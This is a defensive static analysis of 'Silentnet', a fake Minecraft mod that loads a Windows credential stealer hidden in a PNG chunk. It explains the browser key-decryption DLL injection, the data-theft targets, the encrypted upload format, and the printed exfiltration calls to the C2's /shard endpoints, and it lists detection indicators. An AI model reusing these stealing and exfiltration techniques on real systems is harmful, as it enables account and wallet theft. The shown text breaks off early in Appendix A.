

# Malware Analysis of "Silentnet".
**Analysis date: 6 October 2026. static analysis only.**


## 1. What this malware does

The available files form a loader and a Windows credential-stealing payload. The JAR presents itself as a Fabric mod named **Library**. Its code reads the Minecraft session, starts a separate Java process, and downloads a PNG. The PNG carries a compressed ZIP in a custom chunk. The ZIP contains a portable Python runtime and the compiled stealer, `app.pyd`. **If you would like to check it out yourself, you can find the png and the script to extract the payload from it at ./silentnet_stuff/**

The stealer looks for passwords, login cookies, account tokens, payment-card records, wallet files, and other private files. It also takes a screenshot and collects computer details. It sends structured data in an encrypted body and uploads collected files separately. A background worker can download and launch another copy of the application.

The JAR's extraction code matches the hidden chunk in the PNG sample. The ZIP inside that PNG also contains the exact `app.pyd` examined in IDA, confirmed by its SHA-256 hash. This links the files technically, but no saved HTTP response confirms that this PNG came from the JAR's download URL. The PNG is treated as a matching next-stage sample.

### Attack chain

The following flow is reconstructed from the code. It was not run during analysis.



## 2. Samples and evidence

| File | Size in bytes | Purpose |
|---|---:|---|
| `mod.jar` | 65,862 | Original Java loader, with obfuscated code |
| `mod-deobfuscated.jar` | 30,210 | More readable copy of the loader, still malicious |
| `engine.png` | 16,970,569 | PNG containing the hidden payload bundle |                          
| ZIP recovered from `hIds` | 16,682,861 | Portable Python runtime and malware |
| `AppHost/main.py` | 353 | Loads `app.pyd` and calls its main function |
| `AppHost/app.pyd` | 1,848,832 | Compiled Windows credential stealer |
| Embedded browser DLL | 117,760 | Helper used to recover browser encryption keys |


-You can also SilentnetStringTransformer to deobfuscate any new Silentnet build yourself on [jarscanner's](https://www.jarscanner.org/) "Deobfuscate" field at top right corner.


The analysis covers both JARs, the available PNG, its recovered ZIP, and the native Windows payload. The ZIP was extracted again and checked against the native sample by hash.

`sample-inventory.json` records file hashes, sizes, PNG chunk offsets, and checksums. It includes all 736 ZIP entries, including the bundled runtime files.

**Deobfuscation does not remove malicious behavior.** Both JARs contain eight classes: five main classes and three inner helper classes. Their class-file version is 65, which means Java 21. Their manifest and mod JSON match. The three inner classes are identical, the five main classes have different bytes but the same method signatures.

## 3. The ZIP hidden inside the PNG

### Where the payload is stored

The PNG describes a 720 × 720 image with 8-bit RGB color and no interlacing. Its chunks appear in this order:

`IHDR` → `pHYs` -> 102 `IDAT` chunks -> `hIds` → `IEND`

There is no data after `IEND`.

The ZIP is stored in the custom **`hIds` chunk**. It is not hidden in the pixels or added after the end of the file. The loader reads that chunk directly. I haven't found any image-viewer exploits, the Java loader just extracts and starts the payload.

| Detail | Verified value |
|---|---|
| Hidden chunk | `hIds`, bytes `68 49 64 73` |
| Chunk header offset | 417,596 / `0x65F3C` |
| Chunk data offset | 417,604 / `0x65F44` |
| Compressed chunk size | 16,552,949 bytes |
| Chunk CRC32 | `2C522932` |
| Encoding | zlib-compressed ZIP |
| Recovered ZIP size | 16,682,861 bytes |
| ZIP entries | 736 |
| Total unpacked size | 38,246,983 bytes |

All PNG chunk checksums passed. The zlib data decompressed cleanly, and every ZIP entry passed its checksum check. About **97.5% of the PNG's file size is the hidden chunk**.

The one thing i found unusual was that chunk name's third letter is lowercase, the PNG specification requires that letter to be uppercase. This makes `hIds` a nonstandard chunk name, although its checksum is valid and the loader can read it. See the [W3C PNG specification](https://www.w3.org/TR/png-3/#5Chunk-naming-conventions).

### How extraction works

The loader uses three main steps:

1. `Mf_AK.tmHhrrgvdKtp` checks the eight-byte PNG signature, reads chunk lengths in big-endian order, and finds `hIds`.
2. `hraiqngRbnpuaJgcakiYobw` decompresses the chunk with Java's zlib `Inflater`.
3. `by6RhqvkUxhx` reads the resulting ZIP with `ZipInputStream` and writes its files.

No pixel decoding is needed. The hidden ZIP is compressed, not encrypted, at this stage.

The loader itself does not check PNG checksums or compare the payload with an expected hash.

The extraction code also lacks a visible check that every output path stays inside the installation folder. The available ZIP has safe paths. A different server response could expose this weakness, but no path-traversal write was observed in this sample.

### What is inside the ZIP

The bundle includes `python.exe`, `pythonw.exe`, `python312.dll`, `python312.zip`, Windows runtime DLLs, SQLite, SSL libraries, and Python modules. The malware is in `AppHost/main.py` and `AppHost/app.pyd`.


Bundled modules include requests, urllib3, certifi, idna, charset_normalizer, Crypto, PIL, psutil, pywin32, win32com, WMI, and vdf. They provide networking, encryption, screenshots, system information, Windows access, and Steam-file parsing. These are ordinary libraries used by the malware, their presence alone does not make them malicious. Every bundled library was not individually checked against its upstream release.

`python312._pth` enables `import site` and adds `Lib\site-packages` and `AppHost` to Python's search path. This gives the malware a self-contained runtime. Python does not need to be installed separately.

`main.py` adds its folder to the search path, loads `app.pyd` through an import specification, and calls `app.run()`. The compiled module performs the data collection.

## 4. How the Java loader starts

### Running as a Fabric mod

`fabric.mod.json` contains:

| Setting | Value |
|---|---|
| Mod ID | `library` |
| Display name | `Library` |
| Version | `1.0.0` |
| Main entry point | `net.fabric.tjHa` |
| Fabric Loader dependency | At least `0.16.5` |

The manifest also contains Fabric build labels and a Minecraft version label of `1.21`. These are values written into the sample, not independently verified build information.

`tjHa.onInitialize()` starts a thread. Methods in `csYbH` then try to read the active Minecraft username, UUID, and access token.

The code uses Java reflection to look up game classes and fields at runtime. It tries `net.minecraft.class_310`, `net.minecraft.client.Minecraft`, and `net.minecraft.client.MinecraftClient`, along with readable and obfuscated session members. This supports several naming layouts, but compatibility with every Minecraft version was not tested.

To find the game folder, it checks the working directory for `options.txt`, `config`, or `mods`. It then tries `%APPDATA%\.minecraft` and `.minecraft` under the home folder.

The session data is packed into Base64-encoded JSON with `username`, `uuid`, and `accessToken`. This is placed in an outer context as `mcInfo`. **Base64 does not encrypt the token.**

The outer context contains `mcInfo`, `prefireId`, `userId`, `tag`, `domain`, `gameDir`, `mcUsername`, `mcUuid`, and `env`. The Fabric path sets `env` to `Fabric`.

The loader starts the same JAR's `net.fabric.Mf_AK` class in a separate process, passing that context as an argument. It prefers `javaw.exe` from the current Java installation and falls back to `java.exe`.

The process runs in `%LOCALAPPDATA%\Microsoft\Windows\NtProfileIndex`. Input comes from `NUL`; output and errors go to `_spawn.log`. This allows the worker to run separately from the game. It does not establish automatic startup after a reboot.

### Running the JAR directly

The manifest sets `net.fabric.xeswzPsmtoboJrijfmr` as `Main-Class`.

With no context argument, it relaunches through `javaw.exe` or `java.exe` with the `-restarted` flag. The restarted process finds a domain and sets `env` to `DoubleClick`.

When a context argument is already present, it forwards that context to the separate worker. The loader therefore supports both the Fabric entry point and a direct JAR launch.

### Tracking values

The JAR contains the fixed `userId` `c5b5e383-cc6c-4d26-8581-35e4dbd843b0` and the tag `Default`.

The native payload's default user ID is `4015d0e9-4cab-4ac1-8dfd-5ee8f283bca1`. The loader replaces it by passing `-u` when starting Python.

These values help link submissions. They do not identify an operator or prove that each victim gets a unique ID.

## 5. How it finds its servers

### Domain lookup through Polygon

Both the JAR and native payload query the same Polygon contract:

| Field | Value |
|---|---|
| JSON-RPC method | `eth_call` |
| Network named by provider URLs | Polygon |
| Contract | `0x9c0a507300fd902787bb193d80fca5ce6e1bff9a` |
| Function selector | `0xce6d41de` |
| Block argument | `latest` |

The contract response is decoded as a domain name. The lookup is a way to choose the download and upload host; stolen files are not uploaded to the blockchain.

The JAR tries five public RPC endpoints and caches a successful domain for the lifetime of its loader object. On failure, it uses **`thisisafalsepositive[.]st`**. That name is a value chosen in the malware, not a verdict that the sample is harmless.

The native payload uses a larger provider list and falls back to **`sltnnt[.]ru`**. It performs its own lookup. The Java launch does not pass its resolved domain as a host argument, so the stages can end up using different hosts if the lookup changes or fails.

None of these RPC endpoints, the contract, fallback hosts, or malware download endpoints were contacted during analysis. The current domain returned by the contract is unknown.

### Minecraft token sent before the main payload

Before starting the separate worker, the Fabric thread calls `Mf_AK.prefire`. It sends JSON with `sessionId` and `userId` to `/shard/prefireMc`.

**`sessionId` contains the Minecraft access token.** This token can be sent even if the later PNG download fails.

After an HTTP 200 response, the loader tries to read `prefireId`. It uses a basic string scanner that expects compact JSON string fields. Different response formatting could break this step. No actual server response was captured.

### Downloading the PNG

The worker requests:

```text
https://<resolved-domain>/cdn/v2/9f4e7a2c1b8d.png
```

It sends a browser-like user agent, image Accept types, language preferences, and `Sec-Fetch-*` headers. The request looks like an image download while the loader expects a program bundle inside it.

There are up to three attempts. Some failure paths wait `2,000 ms × attempt number`; others move straight to the next attempt.

If `python.exe` and `AppHost/main.py` already exist, the worker reuses them. After extraction, it checks for `python.exe`; the launch routine separately checks for `main.py`. It does not visibly check `app.pyd` against a fixed hash or signature.

### Java HTTP and DNS details

`kivynsWlbpsvy` is a custom HTTP/1.1 client built around sockets. It has GET, POST, and PUT helpers. It reads responses using Content-Length, chunked transfer, or connection close. The chunk loop was confirmed in bytecode after a decompiler omitted it.

The connection timeout is 10 seconds and the read timeout is 30 seconds. HTTPS uses SNI, which supplies the requested server name during the TLS connection. The general request path also enables HTTPS hostname checking.

Its custom certificate trust manager leaves `checkClientTrusted` and `checkServerTrusted` empty. This weakens certificate-chain validation. Hostname checking is configured separately, so the finding should not be described as all TLS checks being disabled everywhere.

For DNS, it connects to `1.1.1.1:443` with `cloudflare-dns.com` as the host and SNI. It requests `/dns-query?dns=<Base64URL-query>`, asks for an A record, and uses the first matching IPv4 answer. Results are cached for 300,000 milliseconds, or five minutes.

This sends DNS queries over HTTPS instead of the normal Windows DNS path. It's worth to mention Cloudflare is a public service used by the code, not an attacker-owned host.

## 6. The Windows stealer: `app.pyd`

`app.pyd` is a 64-bit Python extension compiled with Nuitka 2.8.10 (Which made this analysis harder then it needed to be :D, for those who dont know, Nuitka doesnt just compile python code into an executable, but it also translates it to C). The bundle uses Python 3.12.

The analysis recovered 4,385 constant slots across 30 application module ranges. These constants include names and values used by the program. Their checksum and record boundaries passed validation.

The encoded data is stored in PE resource type RCDATA 10, ID 3, with 237,128 bytes. A sample-specific byte substitution and feedback transform was reversed to read it. Compiler metadata then linked 208 native function addresses to application names. The IDA annotations include 2,454 verified symbol or local-name changes and thousands of constant comments.

The recovered names are supported by metadata and call sites. The constant format was checked against Nuitka's official [constant loader](https://github.com/Nuitka/Nuitka/blob/2.8.10/nuitka/build/static_src/HelpersConstantsBlob.c) and [constant composer](https://github.com/Nuitka/Nuitka/blob/2.8.10/nuitka/tools/data_composer/DataComposer.py).

### Main collection flow

`run`, at `0x18000E3A0`, performs these steps:

1. Clear its own trace log, enable DNS-over-HTTPS, and read configuration.
2. Set user and launch labels, plus Minecraft, prefire, and tag values when supplied.
3. Start the background download worker when configuration allows it.
4. Collect computer details and a screenshot.
5. Collect Discord tokens and browser data.
6. Collect history, bookmarks, Minecraft accounts, wallet files, extension storage, other credentials, and files with matching names.
7. Add collected-file names, categories, and sizes to the main data body.
8. Send the encrypted data body, then upload files separately.
9. Retry the submission sequence if its main success flag is false, send logs, and wait for the background worker when needed.

The main routine calls the Discord-token and browser-data collection handlers.


Accepted launch labels include Fabric, Forge, DoubleClick, Remote, EXE, DLL, Captcha, DiscordInjection, and Powershell. These labels alone do not prove that all of those delivery methods exist in the samples.

The command-line parser accepts `--host`, but the examined initializer sets `API_HOST` from `contract.fetch_domain`. A working host override was not established.

A debug branch can save collected data locally instead of following the normal upload flow. It was identified in the code and was not enabled during analysis.

## 7. Chromium browser data

The stealer targets these browser folders:

Chrome, Edge, Brave, Opera GX, Opera, Vivaldi, Chromium, Yandex, CocCoc, Torch, Comodo Dragon, Epic Privacy, Slimjet, CentBrowser, 7Star, Chedot, and Iridium.

It reads keys from `Local State`, checks `Default` and `Profile ` folders where that layout applies, and copies databases to temporary files before querying them.

| Data | Source | Fields collected |
|---|---|---|
| Passwords | `Login Data` | Site URL, username, encrypted password |
| Cookies | `Network\Cookies` | Domain, name, path, security flags, expiry, encrypted value |
| Payment cards | `Web Data` | Card GUID, name, expiry, encrypted number |
| Card security codes | `Web Data` | GUID and encrypted value from `local_stored_cvc` |
| Google-related tokens | `Web Data` | Service and encrypted token from `token_service` |
| Autofill | `Web Data` | Field name and value from `autofill` |
| History | `History` | URL, title, visit count, last visit time; up to 5,000 rows |
| Bookmarks | `Bookmarks` | Bookmark data saved as a collected file |

The password query is `SELECT origin_url, username_value, password_value FROM logins`. Card numbers and security codes use separate queries. Missing tables, empty records, or failed decryption can prevent collection.


### Browser encryption

The decryptor handles three forms:

- `v10`: recover the browser key through Windows DPAPI, then use AES-GCM.
- `v20`: use an app-bound key, with the browser helper described in the next section.
- Older values: call DPAPI directly.

The AES-GCM helper uses bytes 3–14 as the nonce and checks the final 16-byte authentication tag. A Chrome/Edge cookie path removes a 32-byte header after decryption.

DPAPI is Windows' built-in data protection. The malware calls `CryptUnprotectData` in the available user context rather than guessing a Windows password. Its behavior depends on that context; copied databases are not automatically decryptable on another computer. See Microsoft's [CryptUnprotectData documentation](https://learn.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptunprotectdata).

### Reading locked databases

`copy_browser_file` first tries a normal copy. It can also find browser processes and duplicate an open file handle to read locked data. A confirmed fallback terminates browser processes and retries the copy.

The handle-based code queries system handles, opens processes for handle duplication, checks file names and sizes, and reads through the duplicated handle. Whether it succeeds depends on Windows permissions and the browser's state.

## 8. The browser key-decryption DLL

The native payload contains a Base64-encoded DLL. `get_browser_module` decodes it, then XORs each byte with `0xBB`. This produces a 117,760-byte 64-bit Windows DLL.

The DLL was extracted and examined as a file. It was not injected during analysis.

### How the stealer uses it

The key helper finds the browser installation through Windows App Paths registry keys. It starts the browser with `CREATE_SUSPENDED`, so the new process is paused.

It writes the DLL to a temporary file ending in `.tmp`, creates a named pipe for communication, and loads the DLL into the browser using `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread` with `LoadLibraryA`.


The stealer sends encrypted key bytes through the pipe and expects a decrypted key as a hex string. Cleanup closes the pipe, tries to remove the temporary DLL, and terminates the suspended browser.

### What the DLL does inside the browser

On process attach, the DLL disables thread notifications and starts a worker thread. The worker:

1. Initializes COM, Windows' component system.
2. Checks the name of the process it is running inside.
3. Selects browser-specific COM identifiers for `chrome.exe`, `brave.exe`, or `msedge.exe`.
4. Builds a pipe name from that process ID.
5. Reads a four-byte length followed by encrypted key bytes.
6. Passes the bytes to the selected browser interface for decryption.
7. Converts the returned bytes to lowercase hex and sends them back.
8. Closes the handles and COM state.

The reason for entering the browser process is clear: the helper asks the browser service to decrypt key data from inside a process it recognizes. The code path is confirmed, but acceptance by a specific browser version was not tested.

### Pipe format and COM calls

The pipe name is `\\.\pipe\<32-hex-character-tag>`. Both sides calculate the tag from the process ID using XOR constants `A5A5A5A5`, `3C6EF372`, `1BF5A7E1`, and `9E3779B9`. The four results are rotated left by 5, 11, 17, and 23 bits, then joined as eight-digit uppercase hex values. This identifies the communication channel; it does not encrypt the data.

Python sends a four-byte little-endian length and the encrypted bytes. It reads up to 4,096 bytes of ASCII hex, with a default 10-second operation timeout. The DLL uses a limited retry loop with a 100-millisecond pipe wait.

`CoCreateInstance` requests a local-server COM object. `CoSetProxyBlanket` sets the proxy's security options. Chrome and Brave call a method at interface offset 40; Edge uses offset 64 in the examined branch.

The Chrome IDs and method layout match Chromium's published elevator interfaces, including `DecryptData`. See the [Chromium interface source](https://chromium.googlesource.com/chromium/src/+/main/chrome/elevation_service/elevation_service_idl.idl). Edge's call is recorded by its observed offset; its method name is not assumed from Chrome's layout. The full COM identifiers are in Appendix E.

The DLL analysis identified 423 functions and produced pseudocode for 373 nontrivial functions. Most are compiler or runtime support. The small application worker returns the key to the stealer; no separate network upload path was found in that worker.

## 9. Firefox data

The handler checks `%APPDATA%\Mozilla\Firefox\Profiles` and reads:

- `logins.json` and `key4.db` for saved logins and keys.
- `cookies.sqlite` for cookies.
- `formhistory.sqlite` for form values.
- `places.sqlite` for history and bookmarks.

It parses Firefox encryption records and reads NSS password metadata and key material. Supported code paths include PBKDF2, AES-CBC, and older 3DES encryption.

The examined key-recovery path uses an empty Primary Password. It does not show a method for cracking an arbitrary Firefox Primary Password.

When key recovery succeeds, it decrypts saved usernames and passwords. Cookies come from `moz_cookies`, form values from `moz_formhistory`, and history is limited to 5,000 visited rows. Bookmarks are reconstructed from `moz_bookmarks` and `moz_places`.

Passwords, cookies, and autofill results are merged with Chromium data. History and bookmarks become collected files. Missing profiles or failed decryption can leave results empty.

## 10. Discord tokens

The handler checks Discord, Discord PTB, Discord Canary, Lightcord, and browser storage paths. It scans LevelDB files for token patterns and the encrypted marker `dQw4w9WgXcQ:`.

For encrypted matches, it can recover a client key from `Local State` and use AES-GCM to decrypt the value.

It removes duplicates, then checks tokens against `https://discord.com/api/v9/users/@me` using the `Authorization` header. Successful responses supply account ID, username, display name, email, phone, and a premium-status indicator. Invalid or expired tokens are dropped.

Each validation request has a 10-second timeout; the collection wrapper has a 30-second timeout setting. No tokens were validated during analysis.

Discord's API is a legitimate service used for this check. It is not the malware's main upload destination.

## 11. Minecraft accounts and launcher files

In addition to the Java stage's active-session theft, the native payload targets launcher files and account databases:

| Target | Data or file |
|---|---|
| Lunar Client | `.lunarclient\settings\game\accounts.json` |
| Essential | `gg.essential.mod\microsoft_accounts.json` |
| Prism Launcher | `PrismLauncher\accounts.json` |
| Feather | `.feather\account.txt`, with decryption using Feather's `Local State` key when possible |
| Modrinth App | `ModrinthApp\app.db`: username, UUID, access token, refresh token, expiry |
| Minecraft server list | `.minecraft\servers.dat`, parsed as NBT with gzip support |

The Modrinth handler queries `minecraft_users`. Account results are saved as JSON or text. Server names and addresses become `Minecraft_Server_List.txt`.

### Game-log upload

The JAR reads `<gameDir>\logs\latest.log`. If it exceeds 5,000,000 characters, it keeps the first and last 2,500,000 characters with a truncation marker.

It adds the detached-loader log, Java version, operating-system name, and Windows username. The combined text is sent as `combined.log` to `/shard/submitMinecraftLog`, with Minecraft identity fields and a `-Detached` launch label.

This upload path can run even when full native setup fails after context parsing. No real game-installation logs were read during analysis, and no submitted log was captured.

## 12. Other credentials and account sessions

| Target | Action found in the code |
|---|---|
| Git | Collects `.git-credentials` |
| SSH | Zips the `.ssh` folder |
| FileZilla | Collects `recentservers.xml` and `sitemanager.xml` |
| WinSCP | Looks for `WinSCP.ini` |
| Riot Client | Collects `RiotGamesPrivateSettings.yaml` |
| Thunderbird | Zips the profile folder |
| Claude | Collects `.claude\.credentials.json` |
| Telegram | Zips `Telegram Desktop\tdata` |
| Roblox | Reads `Roblox\LocalStorage\RobloxCookies.dat`, decodes `CookiesData`, and tries DPAPI decryption |
| OBS | Collects profile `service.json` files, which can hold stream keys |
| Mullvad | Runs `mullvad account get` and records available account output |
| Steam | Finds the install path, parses VDF data, and tries to decrypt refresh-token blobs with DPAPI and extra entropy |

Roblox cookies are formatted as Netscape cookie text. Steam discovery uses registry values and default paths, then parses specific data rather than simply uploading the entire Steam folder. Usability of the recovered Steam blobs as live tokens was not tested.

## 13. Wallet files and browser extensions

The desktop-wallet handler targets Exodus, Atomic, Electrum, Electrum-LTC, Zcash, Armory, Bytecoin, Jaxx, Ethereum keystores, Guarda, Coinomi, Cake Wallet, and Monero locations. Existing target folders are collected as ZIP files.

The browser-extension handler copies matching `Local Extension Settings\<extension-id>` folders from browser profiles. The sample lists **56 extension IDs**, including wallet extensions and Authenticator. Appendix A contains the complete list.

This copies extension storage and wallet files. It does not prove that every wallet is unlocked or that any funds were moved. Password-protected storage and unencrypted seed documents carry different levels of exposure.

## 14. Searching for private files

The file scanner walks Desktop, Documents, Downloads, and OneDrive under the home folder. It matches **file names**, not document contents.

Its limits are:

- 20,971,520 bytes per matching file, equivalent to 20 MiB.
- 150 collected files per configured search folder.
- A 15-second elapsed-time setting per search folder.

The time check happens during the folder walk. It does not guarantee that an individual slow file operation ends at exactly 15 seconds.

The scanner skips common cache and development folders, including `.cache`, `.git`, `__pycache__`, `cache`, `node_modules`, `temp`, `tmp`, and `venv`. It also checks file extensions. Appendix B lists every keyword, allowed extension, and excluded folder name.

Broad matches such as `key`, `account`, `config`, `bank`, or `password` can select documents, spreadsheets, PDFs, databases, private-key files, images, and some videos. The collection can therefore include personal or business files unrelated to Minecraft.

Files are held in memory as `HitFile` objects. Collected directories are zipped with their root folder kept in the archive. File metadata records name, category, and size. Categories include Wallet, Web3Wallet, Minecraft, Login, Keyword, and Browser.

## 15. Screenshot and computer details

The screenshot handler calls PIL's `ImageGrab.grab()`, saves a JPEG at quality 85, and Base64-encodes it. The wrapper has a three-second timeout setting and returns an empty result on capture errors or timeout.

System information includes Windows username, PC name, Windows version/build/edition, CPU, GPU, and RAM. Windows details come from the CurrentVersion registry key, CPU and GPU from WMI, and RAM from psutil. Each operation has a three-second timeout setting and a fallback value.

These details can help the receiver identify and sort affected machines. The analyzed paths do not show a general keylogger, microphone recorder, continuous screen recorder, or remote desktop tool.

## 16. How stolen data is uploaded

### Main data body

`_submit_data` encrypts the `user_data` dictionary and calls:

```text
http.shard_post('/submitData', {'e': encrypted})
```

The wrapper builds `https://<API_HOST>/shard<endpoint>` and sends the dictionary as JSON in its normal branch.

The malware places the encrypted data under the JSON field `e` and submits it to `/shard/submitData`.


The body includes computer details, screenshot, Discord tokens, browser data, file metadata, user ID, and launch labels. Minecraft, prefire, and tag values are added when available. Browser groups include passwords, cookies, cards, Google-related tokens, and autofill.

The encryption steps are:

1. Convert the data to JSON and UTF-8 bytes.
2. Compress it with zlib at level 1.
3. Encrypt it with AES-256-GCM.
4. Base64-encode the result.

After Base64 decoding, the format is `12-byte nonce | 16-byte authentication tag | ciphertext`. The AES key is embedded in the sample as eight integers, each converted to four big-endian bytes. This function does not fetch its key from the server.

The encrypted body makes plain-text inspection harder. The receiving side is expected to have the matching decryption logic. No real victim upload was decrypted during analysis.

The response is parsed as JSON to obtain `logUuid`, which links later file uploads to the data submission. The main success flag is separate from that value. If `logUuid` is missing or empty, file uploads may not proceed even when the data submission is marked successful.

### Separate file uploads

`app_submit_files` requires `log_uuid`. It sends each file to `/submitFile` using the multipart field `file`, with `(file_name, file_bytes)` and the header `X-Tracking-ID: <log_uuid>`.

The wrapper call is `http.shard_post('/submitFile', files=..., extra_headers=...)`. It uses requests with `data=`, `files=`, `headers=`, and `timeout=(30, 60)`, then checks each response.

Collected files are uploaded to `/shard/submitFile`. The `X-Tracking-ID` header links them to the main data submission.


The file bytes do not use the main body's AES-GCM envelope. They are uploaded separately over HTTPS.

The main routine can repeat the data/file sequence if its primary success flag remains false. This is not a confirmed individual retry for every failed file after a successful main upload. The requests session also has retries configured, but its method rules can affect POST retries. Live retry behavior was not tested.

### Logs, headers, and native DNS

Native logs use `/submitLogs`. The Java stage separately uses `/prefireMc` and `/submitMinecraftLog`; all of these submission paths are under `/shard`.

Shared submission headers are:

```text
X-Edge-Cache-Revalidate: stale-if-error
X-Runtime-Env: jre-embedded
```

The native wrapper's examined calls use a 30-second connection timeout and 60-second read timeout. It logs HTML responses and request failures. Its retry settings are total `3`, backoff factor `0.5`, and status codes `500`, `502`, `503`, and `504`.

Native DNS-over-HTTPS replaces `socket.getaddrinfo` with a custom lookup. It queries Cloudflare's DNS JSON using `name=<host>&type=A`, caches results, and avoids sending its own DoH hostname back through the replacement. The DoH timeout is five seconds. This is separate from the Java stage's binary DNS-query implementation.

## 17. Later downloads and installation

The background worker first checks `http://127.0.0.1:62143`, with a two-second timeout. An HTTP 200 response is treated as a sign that an application is already active, so setup can be skipped. The available code does not show that local service's implementation or authenticate its response.

For a new installation, it uses `%LOCALAPPDATA%\Microsoft\Windows\IManagementEngine`. This is separate from the JAR's `NtProfileIndex` folder. Both use names that resemble ordinary Windows components.

The worker downloads Python 3.12.7's embedded 64-bit ZIP, enables `import site`, downloads `get-pip.py`, and runs it. It then downloads a requirements file from the resolved host and installs the listed packages.

| Source or path | Purpose |
|---|---|
| `python.org/ftp/python/3.12.7/python-3.12.7-embed-amd64.zip` | Portable Python |
| `bootstrap.pypa.io/get-pip.py` | pip installer |
| `<host>/cdn/b7e2f1d9c3a6` | Package requirements |
| `<host>/cdn/e/d6c9a4e1f7b3` | Encrypted `main.py` |
| `<host>/cdn/e/a1f8d3b7c2e9` | Encrypted `app.pyd` |

The staging download helpers use `verify=False` and suppress insecure-request warnings. This disables certificate verification in those helpers, not necessarily in every Python request.

The byte-download helper defaults to PUT; some file-download paths use GET. It sends a browser-like user agent and `x-cdn-origin-verify: trusted-upstream`. The header is simply text supplied by the sample, not proof of a trusted source.

### Decrypting the downloaded application

The downloaded application files use a format resembling Fernet tokens. The helper:

1. Decodes an embedded Base64 key and uses its last 16 bytes as the AES key.
2. Decodes the token and takes bytes 9–24 as the IV.
3. Takes the bytes starting at 25 and ending before the final 32-byte trailer as ciphertext.
4. Decrypts with AES-CBC and removes padding.

No HMAC verification, timestamp check, or complete Fernet validation was found in this helper. It decrypts the content without the full integrity checks of Fernet.

The worker writes `AppHost/main.py` and `AppHost/app.pyd`, then starts the staged Python interpreter with the script and `-u <user-id>`. Because `-u` follows the script path, it is the application's user-ID argument, not Python's unbuffered-output option.

The process uses `PYTHONDONTWRITEBYTECODE=1`, a no-window flag, and piped standard streams. The pip installer has a 600-second timeout; the requirements install has a 2,700-second timeout.

**The later requirements and application files were not downloaded for this analysis.** Their contents can change, so the later application may behave differently from the PNG bundle examined here.

## 18. Hiding and restart behavior

The Java code hides strings through character arithmetic, XOR, split string builders, and junk integer operations. Random-looking class and variable names add noise. The native payload stores constants in an encoded resource, and the browser helper is wrapped in Base64 plus XOR.

Other visible choices include image-like requests, a separate Java process, a bundled Python runtime, Windows-like folder names, and many silently handled errors. These reduce obvious signs of activity. They do not establish a rootkit or a working antivirus bypass.

The native trace file is `%TEMP%\svchost_d.log`, with `%WINDIR%\Temp` as a fallback folder. A fresh start clears this trace file. No Windows event-log clearing was established. The JAR also writes `_spawn.log` and `_stealer.log` under `NtProfileIndex`.

### Does it survive a reboot?

The code describes the later application as “persistence.” The confirmed actions are installation, an active-status check, and launch.

No Run-key write, scheduled task, service installation, or startup-folder entry was established in the available payload. Automatic restart after reboot is therefore unconfirmed. The unavailable later application could add behavior that is not covered here.

No general VM-detection gate, debugger kill switch, ransomware encryption, or mining loop was established in the identified application paths. This finding is limited to the available samples.

## 19. Detection indicators

### Files and process activity

- **Exact hashes:** Appendix C identifies the analyzed files.
- **Initial runtime:** `%LOCALAPPDATA%\Microsoft\Windows\NtProfileIndex\python.exe`, with `AppHost\main.py` and `AppHost\app.pyd` beneath the same folder.
- **Later installation:** `%LOCALAPPDATA%\Microsoft\Windows\IManagementEngine`.
- **Process chain:** Java starts the same JAR using `-cp` and `net.fabric.Mf_AK`, then Python starts `AppHost\main.py`.
- **Browser key helper:** A suspended browser, a temporary PE DLL ending in `.tmp`, remote-thread loading, and a pipe with a 32-character hex tag.
- **Logs:** `_spawn.log`, `_stealer.log`, and `svchost_d.log` are supporting clues. A log name by itself does not prove infection.

### Network activity

Fallback domains are `thisisafalsepositive[.]st` for the JAR and `sltnnt[.]ru` for the native payload. They were recovered from the samples, not confirmed as live destinations.

Useful details include the Polygon contract and selector, `/cdn/v2/9f4e7a2c1b8d.png`, `/shard` submission paths, and tracking headers. These are stronger when linked to the Java-to-Python process chain.

Polygon RPC services, Cloudflare DNS, Discord, python.org, and bootstrap.pypa.io are legitimate public services used by the sample. They should not be labeled attacker-owned. Blocking them broadly can disrupt unrelated software; process identity and request details provide better context.

`network-indicators-full.json` and `indicators.txt` contain the merged indicator list and each item's role. No live command-and-control traffic capture is included.

## 20. Impact and response

The potential impact extends well beyond Minecraft:

- Login cookies and tokens may allow account access without re-entering a password.
- SSH keys, Git credentials, and API credentials can expose development accounts or systems.
- Wallet files and seed-related documents can expose cryptocurrency assets.
- Screenshots and copied documents can expose personal or business information.

Finding a JAR or PNG alone does not prove that the chain ran or that every theft step succeeded. A real incident assessment needs execution records, installation artifacts, logs, and network evidence. Those host records were outside this sample analysis.

For suspected execution, recovery should use a clean device. The affected device should be disconnected while useful evidence is preserved. Affected sessions and tokens should be revoked, and exposed passwords, API credentials, and keys replaced. Potentially copied wallet secrets should be treated as exposed and handled with trusted recovery help. The affected device should be remediated or rebuilt before new credentials are used on it.

These are response recommendations, not actions carried out during this analysis.

## 21. Limits and unknowns

- **Current server:** The contract was not queried. Its current domain and the upload server's responses are unknown.
- **Later code:** The later requirements, `main.py`, and `app.pyd` were not obtained. They may differ from the PNG bundle.
- **Live collection:** No theft or upload was tested. Browser versions, Primary Passwords, permissions, locked files, missing profiles, service changes, and expired tokens can affect success.
- **Attribution:** Names, domains, and tracking IDs do not identify a person or operator. “Silentnet” is the label used for this report, not verified actor attribution.
- **Host infection:** Possession of the sample files alone does not establish that a computer was infected.

The analysis confirms behavior present in the code. It does not prove that all of it succeeded on a live system.

## 22. Analysis method

The work used static analysis: inspecting file contents and code without running the malware.

Both JARs were hashed and inventoried. CFR decompiled the classes, and Java's `javap` displayed their bytecode without invoking them.

A separate PNG parser checked chunk boundaries and checksums, decompressed `hIds`, and inspected the ZIP. It checked archive paths and every entry checksum. The extracted `app.pyd` was compared by hash with the native sample analyzed in IDA.

IDA and compiler metadata were used to examine `app.pyd`. The browser DLL was analyzed in a separate database. The evidence package includes function catalogs, constants, bytecode, decompiled listings, and supporting records. Decompiled listings are analysis aids, not original source or a ready-to-build version of the malware.

The report covers the available loader and payload chain. Its conclusions do not extend to unknown server responses or future downloaded code.

## Appendix A. Complete extension target list

<details>
<summary>Show all 56 extension targets</summary>

These labels and IDs come from the malware. They identify extensions whose local storage is targeted. They do not mean that the extensions themselves are malicious, and their current store identity was not independently checked.

| Sample label | Extension ID |
|---|---|
| Authenticator | `bhghoamapcdpbohphigoooaddinpkbai` |
| Binance | `fhbohimaelbohpjbbldcngcnapndodjp` |
| Bitapp | `fihkakfobkmkjojpchpfgcmhfjnmnfpi` |
| BoltX | `aodkkagnadcbobfpggfnjeongemjbjca` |
